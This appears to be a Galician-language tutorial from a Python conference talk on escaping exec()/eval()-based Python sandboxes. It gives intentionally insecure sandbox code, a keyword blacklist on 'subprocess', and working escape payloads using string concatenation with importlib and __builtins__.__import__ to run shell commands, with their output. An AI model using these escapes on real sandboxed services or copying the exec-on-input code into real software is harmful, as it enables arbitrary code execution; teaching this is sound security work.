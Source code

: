 # Inxección de código nunha sandbox

## Que é unha sandbox?

Unha sandbox é un entorno que nos permite executar código de forma controlada.

Neste caso "forma controlada" significa que se van a restrinxir certas funcionalidades da linguaxe para evitar que se
executen accions que poidan ser prexudiciales.

## Para que serve unha sandbox?

Unha sandbox serve para:
- **Executar código malicioso**. Para minimizar o risco de acabar co computador prexudicado.
- **Python na web**. Para probar codigo sen ter que instalar python.
- **Servicios na nube**. Para administrar os recursos de cómputo.

## Que tipo de sandboxes existen?

Existen dous tipos de sandboxes:
- A nivel de linguaxe. As restriccións aplícanse dende a propia linguaxe.
- A nivel de sistema operativo. As restriccións aplícanse dende o sistema operativo.

## Como se pode conseguir inxectar código nunha sandbox?

Para levar a cabo isto existen varios camiños e deperán de como esté implantada a sandbox:
- Blacklist de palabras chave. Para este tipo de inxeccións, unha posible forma de escapar da sandbox sería introducir 
unha suma de strings que, ao evaluarse, desen coma resultado a palabra blacklisteada.
- Utilizar a función `eval()` en vez da funcion `exec()` -a función `eval()` non permite a utilización da palabra
reservada `import` a cal serve para importar librarías-. Para este tipo de inxeccións hai que acceder dende os
`__builtins__` á función import e cargar o que nos conveña. 
- Borrar a función `__import__` do diccionario `__builtins__`. Para este tipo de inxeccións, hai que navegar pola árbore
de herencia de calquera obxecto ata chegar a unha clase que importe a libraría que nos interesa. Nota: esta inxección 
explícase con detalle na parte de Flask.

## Sandbox base

```python
class Sandbox:
    def __init__(self, globals=None, locals=None):
        self.globals = globals
        self.locals = locals

    def evalua(self, codigo):
        exec(codigo, self.globals, self.locals)


def main():
    sandbox = Sandbox()
    codigo = input("Codigo: ")
    sandbox.evalua(codigo)


if __name__ == "__main__":
    main()
```

## Exemplo. Blacklist de palabras chave

```python
class Sandbox:
    def __init__(self, globals=None, locals=None):
        self.globals = globals
        self.locals = locals

    def evalua(self, codigo):
        exec(codigo, self.globals, self.locals)


def main():
    sandbox = Sandbox()
    codigo = input("Codigo: ")
    if "subprocess" in codigo:
        print("Detectado intento de inxeccion de código")
        exit(0)
    sandbox.evalua(codigo)


if __name__ == "__main__":
    main()
```

Se se executa un `import subprocess; subprocess.run(['id'])` obtense o seguinte resultado:

```python
Detectado intento de inxeccion de código
```

Para evadir a resticción de blacklist de palabras chave, hai que converter a palabra `subprocess` nunha suma de strings
coma, por exemplo, `'subpr' + 'ocess'`. Por outra banda, en Python, non se pode facer un import dunha suma de strings 
directamente. Para conseguir isto pódese utilizar a libraría `importlib` a cal si que permite cargar librarías a partir
dun string. 

Co seguinte payload, podese cargar a libraría `subprocess` mediante unha suma de strings:

```python
import importlib; mod = importlib.import_module('subpr' + 'ocess'); mod.run(['id'])
```

e o resultado sería:

```pycon
uid=1000(guzman) gid=1000(guzman) grupos=1000(guzman)...
```

## Exemplo. Utilización de eval()

```python
class Sandbox:
    def __init__(self, globals=None, locals=None):
        self.globals = globals
        self.locals = locals

    def evalua(self, codigo):
        resultado = eval(codigo, self.globals, self.locals)
        print(resultado)


def main():
    sandbox = Sandbox()
    codigo = input("Codigo: ")
    sandbox.evalua(codigo)


if __name__ == "__main__":
    main()
```

Se se executa o seguinte codigo:

```python
import subprocess
subprocess.run(['id'])
```

obterase o seguinte resultado:

```pycon
Traceback (most recent call last):
  File "/home/guzman/Repositorios/pycones/02_Sandbox/exemplo_eval.py", line 19, in <module>
    main()
  File "/home/guzman/Repositorios/pycones/02_Sandbox/exemplo_eval.py", line 15, in main
    sandbox.evalua(codigo)
  File "/home/guzman/Repositorios/pycones/02_Sandbox/exemplo_eval.py", line 7, in evalua
    resultado = eval(codigo, self.globals, self.locals)
                ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  File "<string>", line 1
    import subprocess
    ^^^^^^
SyntaxError: invalid syntax
```

Para poder evadir a restricción, pódese acceder ao diccionario `__builtins__` -o cal contén as funcions mínimas de 
Python coma, por exemplo, `print`, `len`, `any`...-, ir a función `__import__`, cargar o módulo subprocess e executar a 
función que queremos.

O string co ataque quedaría da seguinte forma: 

```python
__builtins__.__import__('subprocess').run(['id'])
```

e o resultado sería:

```pycon
uid=1000(guzman) gid=1000(guzman) grupos=1000(guzman)...
CompletedProcess(args=['id'], returncode=0)
```

# Notas extra: o diccionario `__builtins__`

Este diccionario contén todas as funcións mínimas de python e como é un diccionario pódese modificar. Un exemplo disto 
sería borrar a función print mediante a liña `del __builtins__.print`

```pycon
>>> del __builtins__.print
>>> print('Ola mundo!')
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
NameError: name 'print' is not defined
```

